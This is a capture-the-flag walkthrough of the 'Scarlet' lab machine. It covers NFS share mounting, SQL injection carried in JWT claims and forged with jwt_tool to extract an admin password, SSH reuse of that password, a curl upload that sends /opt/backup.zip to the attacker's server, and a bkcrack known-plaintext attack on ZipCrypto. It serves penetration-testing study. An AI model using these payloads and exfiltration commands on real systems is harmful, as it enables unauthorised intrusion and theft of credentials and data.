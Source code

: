 #### Enumeration

results of an nmap scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
37977/tcp open  unknown
40423/tcp open  unknown
41035/tcp open  unknown
42825/tcp open  unknown
57877/tcp open  unknown
111/udp   open  rpcbind
33779/udp open  unknown
50918/udp open  unknown
57140/udp open  unknown
57739/udp open  unknown
58802/udp open  unknown
```

Trying to mount the share folder through NFS service.

```shell
showmount -e 192.168.183.222
mkdir /tmp/test_folder
sudo mount -t nfs 192.168.183.222:/mnt/share /tmp/test_folder -o nolock
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_12h21m37s_001_.png)

Finding a public key but don't know where to use it. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_12h23m17s_002_.png)

Next, we turn to enumerate website. Adding DNS setting.

```
192.168.183.222 scarlet.local
```

Clicking `Author's Portal` to link to the login page. After trying to register many accounts, I find an existing account `brain` the web admin shows on the contacts page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_13h14m12s_003_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_13h18m41s_004_.png)

Logging in to the website using the previously registered account, but don't find vulnerabilities on the page we can submit publication information. After that, continue to check the session. I notice the page is using JWT to authenticate users. We refer to this [article](https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb) try to use JWT SQL injection to gather more information.

We can use exist token to regenerate paylod with SQLi query.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_13h42m53s_005_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_14h13m09s_006_.png)


```shell
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
python3 jwt_tool.py <token> -I -pc <Payload claim to tamper with> -pv "<sql command>" -S hs256 -k /tmp/test_folder/essentials/public.key
# pc = payload claim to tamper with
# public.pem = public key from NFS
```

```shell
# UNION SELECT 1, 2, 3 .... and so on
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT 1, 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

Opening the dev tool and chagne the session value to the new token. After refreshing the page we can see the welcome message has changed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_14h22m55s_007_.png)

We also can decode the payload to check what exactly we send to server.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_14h29m31s_008_.png)

We have to confirm which database software we are dealing with.

```sql
-- MS SQL
SELECT @@VERSION();
-- MySQL/Postgres
SELECT VERSION();
-- SQLite
SELECT sqlite_version();
```

It's SQLite and then we can use SQLite statements.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT sqlite_version(), 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_15h16m57s_009_.png)


Listing all tables.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT group_concat(name) FROM sqlite_schema WHERE type = 'table') , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_15h52m21s_010_.png)

Listing table `users` schema.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT sql FROM sqlite_schema WHERE name = 'users') , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_15h55m20s_011_.png)

Listing all usernames in table `users`.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT group_concat(username) FROM users) , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_16h30m01s_012_.png)

Because brian is web admin so we try to get his password.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT password FROM users WHERE username = 'brian') , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_16h50m17s_013_.png)

Reusing the passowrd to log in to SSH.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_16h53m57s_014_.png)

#### Privilege Escalation

Finding a backup file in opt folder. We upload it back to our machine.

```shell
# start a HTTP server
sudo python2 ~/Documents/HTTPutServer.py 192.168.49.183 80
```

```shell
# target
curl --upload-file /opt/backup.zip http://192.168.49.183
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_17h08m53s_015_.png)

The zip file has password protected. But we can see all the files that look like the website's source codes.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_17h12m56s_016_.png)

Next, we detect zip file encryption algorithm.

```shell
7z l -slt backup.zip
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_17h20m30s_017_.png)

`Exploiting ZipCrypto`

Tool

```shell
wget https://github.com/kimci86/bkcrack/releases/download/v1.5.0/bkcrack-1.5.0-Linux.tar.gz
```

According to the exploit steps we offer a `Plaintext` file that we can download from website.

```shell
wget http://scarlet.local/assets/images/mbr-9.jpg
```

Zip the file

```shell
zip -r plain.zip mbr-9.jpg
```

```shell
# put the all files in the same folder
./bkcrack -C backup.zip  -c 'web/assets/images/mbr-9.jpg' -P plain.zip -p mbr-9.jpg
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h41m48s_018_.png)

```shell
./bkcrack -C backup.zip  -c plain.zip  -k c45cce0e 772c014e 98bbd8be -U test.zip qwert
# -U, --change-password <archive> <password>
#        Create a copy of the encrypted zip archive with the password set to the
#        given new password (requires -C)
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h46m34s_019_.png)

We get a private key.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h50m30s_020_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h52m48s_021_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h53m14s_022_.png)